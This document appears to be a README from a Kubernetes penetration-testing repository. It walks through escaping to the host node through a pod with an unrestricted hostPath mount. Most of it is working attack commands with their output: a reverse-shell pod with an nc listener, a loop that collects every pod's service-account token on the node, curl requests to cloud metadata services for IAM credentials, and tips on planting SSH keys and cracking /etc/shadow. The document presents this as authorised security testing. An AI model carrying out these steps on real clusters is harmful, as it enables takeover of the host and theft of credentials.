 # You can create a pod with only a hostpath mount, but it is unrestricted 
If there are no pod admission controllers applied,or a really lax policy, you can create a pod that has complete access to the host node. You essentially have a root shell on the host, which provides a path to cluster-admin. 

# Pod Creation

### Create a pod you can exec into
[pod-hostpath.yaml](pod-hostpath.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostpath.yaml  
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostpath/pod-hostpath.yaml  
```

#### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostpath -- chroot /host
```

### Or, create a reverse shell pod
[pod-hostpath.yaml-revshell.yaml](pod-hostpath.yaml-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostpath/pod-hostpath.yaml-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

# You now have read/write access to the nodes's filesystem, mounted in /host within your pod
```bash
cd /host
```

#### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)

```bash
find / -name kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```

#### Grab all tokens from all pods on the system
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

#### This lists the location of every service account used by every pod on the node you are on, and tells you the namespace
```bash
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort
```

```
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token
```

##### For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
```bash
DTOKEN=`cat /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions
```

Does the token allow you to view secrets in that namespace? How about other namespaces?
Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?


If cloud hosted, look at the metadata service and checkout user-data, and the IAM permissions. If an IAM role has been assigned to the node, use that to see wht access you hav in the cloud environment. 

```bash
curl http://169.254.169.254/latest/user-data 
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/insce-accounts/default/token
```

Some other ideas:
* Add your public key to node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access other nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

   
Reference(s): 
* https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/
* [The Path Less Traveled: Abusing Kubernetes Defaults](https://www.youtube.com/watch?v=HmoVSmTIOxM) & [corresponding repo](https://github.com/mauilion/blackhat-2019)
